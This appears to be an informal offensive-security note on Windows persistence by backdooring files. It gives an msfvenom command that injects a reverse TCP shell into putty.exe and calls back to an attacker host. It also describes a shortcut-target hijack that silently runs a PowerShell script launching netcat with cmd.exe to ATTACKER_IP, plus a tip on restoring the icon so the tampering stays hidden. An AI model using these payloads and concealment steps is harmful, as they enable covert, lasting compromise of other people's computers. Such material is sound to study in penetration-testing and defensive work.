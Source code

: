 # Windows Persistence - Backdooring Files

## Injecting Executables Files

Look for shortcuts and executables that potentially used frequently; changing the properties of the file the user interacts by downloading and configure to execute an additional payload silently by adding an extra thread in the binary. Check to if would work on user's end also.

```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=$ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

This is not that sneaky, but effective.

## Shortcut File Target Injection

Of Shortcut's properties change the "Target:" to `powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1` with `backdoor.ps1` be:

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"
# Path to orginal execuable below to create illusion th same process will run when shortcut is used
C:\Windows\Systenm32...
```

Make sure to "Change Icon..."  to revert any visble changes to the Icon display ni the GUI after editing this Shortcut.